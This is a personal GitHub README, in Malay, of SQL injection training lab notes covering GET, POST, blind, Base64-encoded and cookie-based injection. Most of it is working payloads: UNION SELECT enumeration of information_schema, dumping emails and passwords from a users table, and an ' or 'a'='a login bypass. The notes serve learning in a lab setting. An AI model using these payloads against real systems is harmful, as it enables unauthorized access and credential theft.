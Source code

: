 # SQL Injection Training Lab notes
SQL Injection Training Lab notes for me

## Level A - Basic GET SQL Injection
- common payload untuk sqli `'` `"` `\` `)'` `}'` `\'` untuk test web injectable
- note: jika `blind base` page tidak keluar error page tapi page menjadi blank
- note: `--` simbol untuk komen di sql
- note: `+` simbol untuk space pada url browser
- note: jika string `union all select` detect oleh web boleh guna hex iaitu dalam bentuk %61 atau no2 lain

- gambar dibawah contoh untuk test error web selepas guna payload `'` = `single quote`

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/4e32639f-6c0e-4c82-bf67-317bc2ff01df)

- payload `'--+` web menjadi normal dan web ini mempunyai vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/417f7304-7b32-4688-8702-e50e97ce6bad)

- payload `'+order+by+6--+` untuk mencari berapa column yang ada dalam db, contoh sampai 6 dpt error bermaksud ada 5 colomn dlm db ini

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/728fa968-dfb5-4570-a786-c663f8b35833)

- payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk melihat username dan email dikeluarkan berada di col no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code contoh `@@version` untuk check version , `database()` untuk check nama db, `user()` untuk check username db
 
![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e68c2dec-1ada-4a95-82de-d3c84da608fc)

- payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables--+` untuk senaraikan semua db table dalam db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/75903416-fec8-4ba8-b5a1-d6befaa5ec0f)

- payload `?id=-1'+union+all+select+1,group_concat(table_name),3,4,5+from+information_schema.tables+where+table_schema=database()--+` untuk filter current db sahaja berdasarkan payload step sebelumnya

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c3f53df9-f9db-4f76-9c1c-a5f5fd80db56)

- payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()--+` untuk display semua jenis col dalam db 

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5c3f8a18-58f9-450b-8b34-6744b7f72d59)

- payload `?id=-1'+union+all+select+1,group_concat(column_name),3,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='users'--+` untuk display semua jenis col dalam db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/20974b51-155d-44e1-b871-609104d9eebd)

- payload `?id=-1'+union+all+select+1,group_concat(email),group_concat(password),4,5+from+users--+` untuk display email dan password sebab kita dah tahu table mana untuk guna `group_concat(email)`,`group_concat(password)`,`from users`

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9dd9dab2-4e32-46bd-add4-1fe787a87b68)

## Level B - Basic POST SQL Injection
- notes: beza get method dengan post method ialah post tiada di url browser dan get ada di url browser
- notes: guna `space` untuk ganti `+` dalam post method

- payload `user1'` untuk test error web

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/9b258237-6335-4e64-84cd-e29f02e2776b)

- payload `user1'-- ` web menjadi normal bermaksud web mempunyai vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/e2337ce0-2c05-440b-85ba-c5aea13b2fd2)

- payload `user1'order by 5-- ` untuk mencari berapa col yang ada dlm db, contoh sampai 6 dapat error bermaksud ada 5 col dalam db ini

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f1887807-0685-4449-b862-9c7a6161d3c8)

- payload `user-1'union all select 1,2,3,4,5-- ` untuk tengok username dan email dikeluarkan berada di col no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/779ad3ae-ad74-440d-b9c9-699f86e803c4)

- payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables-- ` untuk senaraikan semua db table dalam db information_schema

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/31af9e0f-04ac-4619-a3be-74ae349f2f92)

- payload `user-1'union all select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()-- ` seperti step sebelumnya tapi filter kepada current db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bc76091e-ebe5-494d-83c1-f2347a55f614)

- payload `user-1'union all select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name='users' and table_schema=database()-- ` untuk display semua jenis col dalam db table users

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5f3e4061-f448-4a3d-9985-f9624eee7177)

- payload `user-1'union all select 1,group_concat(email),group_concat(password),4,5 from users-- ` untuk senarai email dan password

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/dc5c638f-be2f-4c0c-b3f9-5d86750151c9)

## Level C - POST Bypass Auth
- payload `'` untuk test error web

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/6ba94a2a-bda7-4d3e-8305-d6582f79378b)

- payload `'-- ` web menjadi normal bermaksud web ini ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/fd5010f6-14d0-4c94-9edf-03ea16485da9)

- payload `' or 'a' = 'a` untuk bypass login dan paste letak di password sekali, auto dapat masuk login

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/f30df5d1-917f-4475-aabf-e3b9a0631812)

## Level D - GET Blind Based
- notes: blind sama dengan get method
- notes: blind tidak keluar error atau data 

- payload `'` untuk test error web

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/622c5881-2e02-498b-b282-16e20422c651)

- payload `'--+` web menjadi normal dan web ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/7f368d86-c3f8-4dc7-abc5-d3fa1cb2b789)

- payload `'+order+by+5--+` untuk mencari berapa col yang ada dalam db contoh 6 dapat blind error so db ada 5 column

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/bbccdea2-3ebb-4987-9704-8a587d2299d1)

- payload `?id=-1'+union+all+select+1,2,3,4,5--+` untuk tengok username dan email dikeluarkan berada di col no berapa, berdasarkan gambar bawah username terletak di col 2 dan email terletak di col 3, `2,3` boleh replace dengan apa2 code

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/d1a51e4f-3619-4ea8-ab1d-2a9d67def8e2)

- step seterusnya sama saja dengan get method

## Level E - Base64 GET SQL Injection

- notes: encoded bermaksud berbeza bentuk contoh ialah Base10, Base64
- Base64 `a-z` `A-Z` `0-9` `/` `+` dan 4 data iaitu `XX==` `XXX=` `XXXX`
- boleh guna online tools [Base64 decode encode](https://www.base64decode.org/)

- payload `1'` convert B64 `MSc=` untuk check web error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/8ae0dcee-a744-4c48-9f98-b1504516374e)

- payload `1'-- ` convert B64 `MSctLSA=` web menjadi normal dan web ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5452bec6-df24-4917-9c15-44fe740658ad)

- payload `1' order by 5-- ` convert B64 `MScgb3JkZXIgYnkgNS0tIA==` kenapa 5 sebab db ada 5 col dan col 6 dapat error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/5a8141c0-ae0f-40da-bbca-565ca9a7e62f)

- payload `-1' union all select 1,2,3,4,5-- ` convert B64 `LTEnIHVuaW9uIGFsbCBzZWxlY3QgMSwyLDMsNCw1LS0g` untuk check username dan email berada di col mana dalam db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/3ff88ac0-e86a-4e67-8444-b748dec2f61f)

- step seterusnya sama dengan level2 lain

## Level H - Cookie Base SQL Injection
- Notes: untuk check cookie buka `developer tools` atau button `f12` atau `inspect element` di browser bahagian console taip `document.cookie`
- Notes: cookie disimpan di browser

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/c75cd5b3-a35f-4532-b367-d2ac0bae1b0d)

- payload `document.cookie = "userid=2"` untuk tukar kepada user 2

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/afc4f45f-14b4-4630-b112-35f95ff72dd7)

- payload `document.cookie = "userid=2'"` untuk check web error

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/33eb3578-4dcb-490b-bb42-e47d96dc5b34)

- payload `document.cookie = "userid=1'-- -"` wen menjadi normal dan web ada vuln

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/7fa4c83f-7ff9-47f2-bdfd-6571455c7053)

- payload  `document.cookie = "userid=-1'union all select 1,2,3,4,5 -- -"` untuk check username dan email berada di col mana dalam db

![image](https://github.com/0hanif0/SQL-Injection-Training-Lab-notes/assets/23289982/d1bb83ee-4f2c-4f67-97e8-848717a43582)

- step seterunya sama dengan level2 sebelumnya
